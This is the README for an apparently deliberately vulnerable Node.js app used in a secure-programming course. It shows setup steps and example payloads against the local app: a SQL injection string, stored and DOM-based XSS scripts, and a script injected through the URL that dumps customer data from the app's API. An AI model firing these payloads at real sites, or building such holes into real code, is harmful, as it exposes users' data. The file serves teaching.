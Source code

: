 # Node app with OWASP vulnerabilities, part of Secure Application Programming module

• SQL Injection.
• XSS Reflected Dom based and stored.
• Sensitive Data Exposure.

## Prerequisites

Node.js (and npm package manager)

## Run

1. Install npm packages

```
npm install
```

2. Run node

```
node index.js 
OR
mpm run dev
```

3. Open your browser and navigate to <http://localhost:3000>

4. Generate new customers with any random data.

## SQL Injection

Using inspect element, Inject the following into any of the delete buttons:

```
1 OR 1=1
```

## Stored XSS:
Insert the below in any of the text fields when adding a new customer:

```
<script>alert('XSS')</script>
```

## DOM XSS:
Use the context within the URI to run any script.

```
?context=<script>alert("LEAVE THIS PAGE! YOU ARE BEING HACKED!");</script>
```

http://localhost:3000/customers?context=<script>alert("LEAVE THIS PAGE! YOU ARE BEING HACKED!");</script>

## Sensitive data exposure:
Similar to the step above, the following script can be used in the context.

```
<script>fetch('/api/customers').then(r=>r.json()).then(d=>document.write(JSON.stringify(d)));</script>
```
